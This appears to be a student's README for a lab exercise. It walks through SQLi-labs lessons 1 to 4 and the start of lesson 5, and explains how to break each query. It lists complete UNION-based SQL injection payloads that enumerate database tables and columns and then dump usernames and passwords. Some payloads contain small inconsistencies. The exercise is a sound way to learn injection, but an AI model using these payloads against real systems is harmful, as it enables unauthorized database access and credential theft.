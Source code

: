 Please go-through the readme.md



the questions which i have solved were les-1,2,3,4,5(partially) and i would explain the each and every step
les1:
	so when we give some random input as id=1 we can see the output out there so our main aim is to 
		1.break the query
		2.get the database
		3.get the relation
		4.dump the thing out 
	so when we type something fancy characters like 1' or 1/ we will be getting like 
		***''1'' LIMIT 0,1' so after balancing the quotes it looks like 
			'1'' limit 0,1 ==>1' limit 0,1 
				limit a,b is like a is the starting point and b is the number of records***
	this question is about:***"Breaking single quoted query"***
		so later on we need to find the attributes in the relation of the database so we will using an function order-by initially to just find the number of attributes nad later on we goes to the keyword union select which will combine the  attributes we inputted and gives us the output according to that 
		so by using database() we get the database used 
		so the payloads are:
		1.?id=-1 union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -         ***here we will be getting the relations under the db 'security' which consists the details of the master-database 'information_schema' and the relation 'table'***
		2.?id=-1' union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- - ***this is for the getting the details of the relation users***
		3.?id=-1' union select 1,group_concat(username),group_concat(password)from security.users-- - ***for the final dumping***
	refered wiki.bi0s and 
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------	
les2-
		this is about:***just a simple integer***
		payloads used:
			?id=-1 union select 1,2,3-- -      ***since it's an integer and we can find error when we put ?id=-1'***
				?id=-1 union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -         ***here we will be getting the relations under the db 'security' which consists the details of the master-database 'information_schema' and the relation 'table'
				the details like username and password were present in the relation named 'users' so we need to access it and later on we need to get the names of the colums present in the relation 'users'***
				?id=-1 union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -  ***-->this retrives the attributes of the table users***
as we know the table we can simply get the details of username and password		
				?id=-1 union select 1,group_concat(username),group_concat(password)from security.users-- -  ----->***retreiving the username and password***
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les3:
question is about: "single quote with brackets"
	payloads for dumping:
		when we do 1' we get the error ''1'') LIMIT 0,1' we can see that the double quotes aren't double quotes but they are 2 single quotes and we also have a brace at the end this look like "breaking single quote with bracket           String1 = ‘) OR 1 -- -
"
this can be written as '1 ' ') limit 0,1 which is similar to 1') limit 0,1
so let's proceed with this 1') limit 0,1
***id=-1')-- -***
***?id=-1') union select 1,2,database()-- -*** ==>this retrives the database where the details were stored
and now we need to retrive the table and the number of attributes and then dump
***?id=-1') union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -***
--now we got the tables and 'users' is our goal and we can retrive the number of attributes of the given relation
***?id=-1') union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -***
so we got the attributes and we need to get the username,password
***?id=-1') union select 1,group_concat(username),group_concat(password) from security.users-- -***
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les-4:
question is about :double quotes with brackets
	payloads:
		when we do 1' we get the error ""1"") LIMIT 0,1" "breaking double quote with bracket           String1 = ") OR 1 -- -
"
this can be written as "1"") limit 0,1 which is similar to 1") limit 0,1
so let's proceed with this 1") limit 0,1
id=-1")-- -
?id=-1") union select 1,2,database()-- - ==>this retrives the database where the details were stored
and now we need to retrive the table and the number of attributes and then dump
?id=-1") union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -
--now we got the tables and 'users' is our goal and we can retrive the number of attributes of the given relation
?id=-1") union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -
so we got the attributes and we need to get the username,password
?id=-1") union select 1,group_concat(username),group_concat(password) from security.users-- -
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
i can succesfully install and execute the sqli-labs
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les5:
	it's all about the double query injection
		in this we can't find any proper error which makes us to dump so we use some functions to dump the data

